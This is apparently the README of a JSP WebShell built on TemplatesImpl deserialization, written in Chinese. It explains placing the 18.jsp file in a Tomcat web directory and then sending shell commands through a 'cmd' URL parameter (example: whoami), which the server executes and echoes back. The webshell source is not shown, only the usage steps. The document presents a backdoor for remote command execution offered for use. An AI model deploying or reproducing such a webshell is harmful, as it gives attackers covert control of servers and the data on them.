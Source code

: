 ### 利用TemplatesImpl反序列化的JSP WebShell


使用：
```
1.把jsp文件放到能被解析的服务器目录，例：tomcat的webapps/ROOT

2.在浏览器访问18.jsp，并使用参数cmd传入需要远程执行的命令，例：http://127.0.0.1:8080/18.jsp?cmd=whoami

3.服务器将会执行相应的shell命令，最后回显
```